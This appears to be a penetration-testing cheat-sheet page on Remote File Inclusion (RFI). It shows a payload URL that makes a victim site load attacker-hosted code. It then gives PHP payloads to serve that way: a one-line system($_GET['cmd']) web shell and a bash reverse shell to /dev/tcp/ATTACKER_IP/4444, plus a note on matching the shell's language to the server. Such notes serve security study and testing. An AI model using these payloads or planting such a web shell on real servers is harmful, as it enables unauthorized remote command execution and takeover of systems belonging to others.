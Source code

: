 # Remote File Inclusion (RFI)

<figure><img src="../../../../../../../.gitbook/assets/b0c2659127d95a0b633e94bd00ed10e0.png" alt=""><figcaption></figcaption></figure>

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

* Sensitive Information Disclosure
* Cross-site Scripting (XSS)
* Denial of Service (DoS)

## Payload

<pre class="language-url"><code class="lang-url"><strong>http://victim.com/index.php?page=http://AttackerWebServer.com/cmd.txt or any file
</strong></code></pre>

* Cmd.txt includes malicious code

Essentially we add our website on the parameter and then the victim website retrives the file from our website and it runs the file  RCE. This way we can upload files and run the them like revshells

## Malicious code

Examples

Revshell - Command

```php
<?php system($_GET['cmd']); ?>
# or a more interactive exec:
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"); ?>
# or
<?PHP echo "it works"; ?>
```

{% hint style="warning" %}
upload a reverse‑shell _script_ it generally must be written in a language the webserver can execute (PHP for a PHP site, ASP/ASPX for IIS, JSP for Tomcat, etc.)
{% endhint %}
